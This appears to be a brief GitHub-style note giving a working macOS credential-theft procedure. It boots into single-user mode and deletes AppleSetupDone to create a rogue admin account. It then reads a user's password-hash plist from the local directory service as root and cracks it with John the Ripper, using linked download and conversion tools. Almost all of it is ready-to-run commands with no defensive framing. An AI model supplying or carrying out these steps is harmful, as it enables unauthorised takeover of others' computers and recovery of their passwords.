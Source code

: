 # links to download
JTR -- https://www.openwall.com/john/k/john-1.9.0-jumbo-1.tar.gz
Hashcat -- https://gist.github.com/VFTS102/cdeead0bbf9ba63a3dbdb929792ec33d#file-plist2hashcat-py
# how to view
view in raw to get commands right cuz github doesn't give a crap about what goes on what line :)
# new admin user in single user mode
mount -uw /
rm /var/db/AppleSetupDone
*reboot*
# execute in terminal with root access
cd path/to/hashcat
sudo ./plist2hashcat.py /var/db/dslocal/nodes/default/users/*USER*.plist
save output to sha-512.txt in /path/to/JTR/run
cd path/to/JTR/run
./john --show --format=PBKDF2-HMAC-SHA512 sha-512.txt
